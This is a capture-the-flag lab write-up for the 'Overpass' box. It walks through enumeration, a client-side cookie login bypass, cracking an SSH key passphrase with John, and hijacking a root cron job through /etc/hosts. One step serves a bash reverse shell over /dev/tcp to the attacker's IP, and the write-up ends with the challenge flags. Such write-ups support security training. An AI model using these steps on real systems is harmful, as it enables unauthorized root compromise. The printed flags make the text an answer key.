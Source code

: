 ## IP=10.10.240.84


# Overpass #

### Approach:
	
1. Enumeration:
	* NMAP:
		* SSH (22) - OpenSSH 7.6p1
		* HTTP (80) - Golang
	* GoBuster:
		* /admin - Administrator login page.
		* /aboutus
			* Found some potential usernames:
				* Ninja 			(lead developer)
				* Pars				(shube enthusiast and emotional support animal manager)
				* Szymex			(head of security)
				* Bee				(chief drinking water coordinator)
				* MuirlandOracle	(cryptography consultant)

2. Navigated to the `/admin` page. Saw that the login functionality was client side JavaScript that I could view. Within the `login.js` file, you can see that when there is a successful login, the application knows by setting the cookie to SessionToken. If SessionToken == "Incorrect credentials", then the user cannot access the admin page. Now, if the SessionToken is anything but that, you get access to the admin page.
	* Found a RSA Private Key for the user `James`, which I saved locally as `rsa-private-key`.

3. We can use the RSA Private Key to attempt to login to the box via SSH.
	* Change the `rsa-private-key` file permissions to secure for SSH: `chmod 600 rsa-private-key`
	* Attempt to SSH using the private key: `ssh -i rsa-private-key james@$IP`
		* NO DICE. The RSA Private Key is password protected.
		* We can try to crack it using JohnTheRipper:
			1. Convert `rsa-private-key` to a format that JohnTheRipper can understand: `python /usr/share/john/ssh2john.py rsa-private-key > john-rsa-private-key.hash`.
			2. Use John and a wordlist to attept to crack the password: `john --wordlist=/usr/share/wordlists/rockyou.txt john-rsa-private-key.hash`
		* Password for `rsa-private-key`: `james13`

4. Answer to user flag is located at `/home/james/user.txt`.

5. Found the password for the user `james`.
	* Following along with the source code of the overpass application, you can see that all passwords are saved to the `~/.overpass` file. However, everything is encrypted using ROT47.
	* Navigating to james's .overpass file, I found this: `,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.`. Then using CyberChef I was able to decrypt it into this: `[{"name":"System","pass":"saydrawnlyingpicture"}]`.
	* Username: `james`
	* Password: `saydrawnlyingpicture`

6. Download and run linpeas.sh.
	* Not a lot of obvious stuff inside the output, but I did find out I could write to the `/etc/hosts` file.
	* Linpeas also picked up a root cron job that was runs a curl request that downloads and runs a bash script.
		* Cron Job; `/etc/crontab:16:* * * * * root curl overpass.thm/downloads/src/buildscript.sh`

7. Change the `/etc/hosts` to point to my machine rather than the machine's localhost.
	* Inside `/etc/hosts`, change this line, `127.0.0.1 overpass.thm`, to this line, `<MY IP> overpass.thm`.

8. On my local machine, I created the same folder/directory structure as in the URL for the curl request (`downloads/src/buildscript.sh`).
	* Inside my `buildscript.sh` was a bash script that would create a reverse shell using the command: `bash -c 'exec bash -i &>/dev/tcp/<MY IP>/5555 <&1'`
	* Then I started up a local server on port 80: `sudo python3 -m http.server 80`.
	* I also started up a netcat listener on port 5555: `nc -lnvp 5555`
	* Once everything is running, wait for a minute, then BOOM, you should have a reverse shell as root.

9. Answer to the root flag is located at `/root/root.txt`.


### Questions:

1. What is the user flag?

```
thm{65c1aaf000506e56996822c6281e6bf7}
```

2. What is the root flag?

```
thm{7f336f8c359dbac18d54fdd64ea753bb}
```
